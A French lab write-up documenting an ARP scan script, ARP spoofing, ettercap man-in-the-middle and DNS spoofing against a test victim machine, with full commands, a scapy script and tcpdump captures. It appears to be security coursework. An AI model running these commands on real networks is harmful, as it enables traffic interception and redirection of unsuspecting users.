 ## 1. Scan réseau

liste ip présentes sur le réseau passé en paramètre
````
from scapy.all import *

print("Choose in which network you want to scan")
ip_reseaux=input()
a=arping(ip_reseaux)
if ip_reseaux[7]=="0" and ip_reseaux[8]=="/" and ip_reseaux[9]+ip_reseaux[10]=="24":
        a
else:
        print("Error, wrong network")
        print("Network example : 192.168.1.0/24")
````

résultat sur le réseau 10.1.1.0/24
````
quentin@attacker:~/Documents$ sudo python3 test.py
Choose in which network you want to scan
10.1.1.0/24
Begin emission:
Finished sending 256 packets.
***
Received 3 packets, got 3 answers, remaining 253 packets
  0a:00:27:00:00:43 unknown 10.1.1.1
  08:00:27:72:6d:7b unknown 10.1.1.10
  08:00:27:2d:ea:7c unknown 10.1.1.254
````

IP attacker = 10.1.1.11/24, MAC attacker = 08:00:27:6f:b9:c3  
IP victim = 10.1.1.10/24, MAC victim = 08:00:27:72:6d:7b

## 2. ARP Poisoning et MITM
### A. ARP Spoof
Envoie un arp avec une fausse adresse IP qui est relier à la mac de l'attaquant
````
quentin@attacker:~$ sudo arping -i 1 -U -s 10.1.1.20 -I enp0s3 10.1.1.10
ARPING 10.1.1.10 from 10.1.1.20 enp0s3
Unicast reply from 10.1.1.10 [08:00:27:72:6D:7B]  0.715ms
Sent 1 probes (1 broadcast(s))
Received 1 response(s)
````
Modifications table arp de la victime
````
quentin@victim:~$ ip n s
10.1.1.20 dev enp0s3 lladdr 08:00:27:6f:b9:c3 STALE
10.1.1.254 dev enp0s3 lladdr 08:00:27:2d:ea:7c STALE
10.1.1.1 dev enp0s3 lladdr 0a:00:27:00:00:43 DELAY
````
Quand la victime ping la fausse addresse IP l'attaquant peut voir l'échange
````
quentin@victim:~$ ping 10.1.1.20
PING 10.1.1.20 (10.1.1.20) 56(84) bytes of data.
^C
--- 10.1.1.20 ping statistics ---
6 packets transmitted, 0 received, 100% packet loss, time 5102ms
````
Vu de l'attaquant
````
quentin@attacker:~/Documents$ sudo tcpdump -n -i enp0s3 -e 'arp or icmp'
[sudo] Mot de passe de quentin :
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on enp0s3, link-type EN10MB (Ethernet), snapshot length 262144 bytes
00:26:01.482356 08:00:27:6f:b9:c3 > ff:ff:ff:ff:ff:ff, ethertype ARP (0x0806), length 42: Request who-has 10.1.1.10 (ff:ff:ff:ff:ff:ff) tell 10.1.1.20, length 28  
00:26:01.482549 08:00:27:72:6d:7b > 08:00:27:6f:b9:c3, ethertype ARP (0x0806), length 60: Reply 10.1.1.10 is-at 08:00:27:72:6d:7b, length 46
00:26:51.895333 08:00:27:72:6d:7b > 08:00:27:6f:b9:c3, ethertype IPv4 (0x0800), length 98: 10.1.1.10 > 10.1.1.20: ICMP echo request, id 64808, seq 1, length 64
00:26:52.905237 08:00:27:72:6d:7b > 08:00:27:6f:b9:c3, ethertype IPv4 (0x0800), length 98: 10.1.1.10 > 10.1.1.20: ICMP echo request, id 64808, seq 2, length 64
00:26:57.097051 08:00:27:72:6d:7b > 08:00:27:6f:b9:c3, ethertype ARP (0x0806), length 60: Request who-has 10.1.1.20 tell 10.1.1.10, length 46
7 packets captured
````

### B. MITM

Spam en mettant son addresse mac pour l'ip de la victime sur la table arp du routeur et sa mac pour l'ip du routeur sur la table arp de la victime (je ne pouvais pas spécifier avec l'ip que pour le routeur et la victime parce que j'avais un problème de (///)).
````
quentin@attacker:~$ sudo ettercap -i enp0s3 -T -M arp

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Listening on:
enp0s3 -> 08:00:27:6F:B9:C3
          10.1.1.11/255.255.255.0
          fe80::a00:27ff:fe6f:b9c3/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

Randomizing 255 hosts for scanning...
Scanning the whole netmask for 255 hosts...
/ |=>                                                 |  100.00 %
````

Ping de la victime vers le routeur, les packets sont bien reçus

````
quentin@victim:~$ ping 10.1.1.254
PING 10.1.1.254 (10.1.1.254) 56(84) bytes of data.
64 bytes from 10.1.1.254: icmp_seq=1 ttl=64 time=14.6 ms
64 bytes from 10.1.1.254: icmp_seq=2 ttl=64 time=12.7 ms
64 bytes from 10.1.1.254: icmp_seq=3 ttl=64 time=11.2 ms
64 bytes from 10.1.1.254: icmp_seq=4 ttl=64 time=9.93 ms
^C
--- 10.1.1.254 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 9.925/12.102/14.561/1.732 ms
````


Vu avec tcpdump: on voit que le request et le reply passe par l'attaquant et que l'attaquant le transfère vers le bon destinataire. 
````
quentin@attacker:~$ sudo tcpdump -n -i enp0s3 -e 'arp or icmp'
16:30:03.522777 08:00:27:72:6d:7b > 08:00:27:6f:b9:c3, ethertype IPv4 (0x0800), length 98: 10.1.1.10 > 10.1.1.254: ICMP echo request, id 58327, seq 1, length 64
16:30:03.528832 08:00:27:6f:b9:c3 > 08:00:27:2d:ea:7c, ethertype IPv4 (0x0800), length 98: 10.1.1.10 > 10.1.1.254: ICMP echo request, id 58327, seq 1, length 64
16:30:03.529375 08:00:27:2d:ea:7c > 08:00:27:6f:b9:c3, ethertype IPv4 (0x0800), length 98: 10.1.1.254 > 10.1.1.10: ICMP echo reply, id 58327, seq 1, length 64
16:30:03.536890 08:00:27:6f:b9:c3 > 08:00:27:72:6d:7b, ethertype IPv4 (0x0800), length 98: 10.1.1.254 > 10.1.1.10: ICMP echo reply, id 58327, seq 1, length 64
````

## 3. DNS Spoofing

````
quentin@attacker:~$ sudo ettercap -i enp0s3 -T -q -P dns_spoof -M arp:remote

Listening on:
enp0s3 -> 08:00:27:6F:B9:C3
          10.1.1.11/255.255.255.0
          fe80::a00:27ff:fe6f:b9c3/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

Randomizing 255 hosts for scanning...
Scanning the whole netmask for 255 hosts...
* |==================================================>| 100.00 %

3 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : ANY (all the hosts in the list)

 GROUP 2 : ANY (all the hosts in the list)
Starting Unified sniffing...

Activating dns_spoof plugin...

dns_spoof: A [www.google.com] spoofed to [51.15.202.245] TTL [3600 s]
dns_spoof: A [www.google.com] spoofed to [51.15.202.245] TTL [3600 s]
````

````
sudo python3 arp.py 10.1.1.10 10.1.1.254
[sudo] Mot de passe de quentin :
.
Sent 1 packets.
.
````
````
sudo python3 dns.py -f dns-host -i enp0s3
[sudo] Mot de passe de quentin :
Spoofing DNS requests on enp0s3
Send google.com has 51.15.202.245 to 10.1.1.10
.
Sent 1 packets.
Send google.com has 51.15.202.245 to 10.1.1.10
.
Sent 1 packets.
````
````
quentin@attacker:~$ sudo tcpdump -n -i enp0s3 -e 'arp or icmp'
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on enp0s3, link-type EN10MB (Ethernet), snapshot length 262144 bytes
02:13:52.780522 08:00:27:6f:b9:c3 > 08:00:27:72:6d:7b, ethertype IPv4 (0x0800), length 98: 10.1.1.11 > 10.1.1.10: ICMP redirect 8.8.8.8 to host 10.1.1.254, length 64
02:13:52.791916 08:00:27:72:6d:7b > 08:00:27:6f:b9:c3, ethertype IPv4 (0x0800), length 98: 10.1.1.10 > 51.15.202.245: ICMP echo request, id 48551, seq 1, length 64
02:13:53.823216 08:00:27:72:6d:7b > 08:00:27:6f:b9:c3, ethertype IPv4 (0x0800), length 98: 10.1.1.10 > 51.15.202.245: ICMP echo request, id 48551, seq 2, length 64
02:13:53.823253 08:00:27:6f:b9:c3 > 08:00:27:72:6d:7b, ethertype IPv4 (0x0800), length 126: 10.1.1.11 > 10.1.1.10: ICMP redirect 51.15.202.245 to host 10.1.1.254, length 92
````

````
quentin@victim:~$ ping google.com
PING google.com (51.15.202.245) 56(84) bytes of data.
From 10.1.1.11: icmp_seq=2 Redirect Host(New nexthop: 10.1.1.254)

--- google.com ping statistics ---
2 packets transmitted, 0 received, 100% packet loss, time 1031ms
````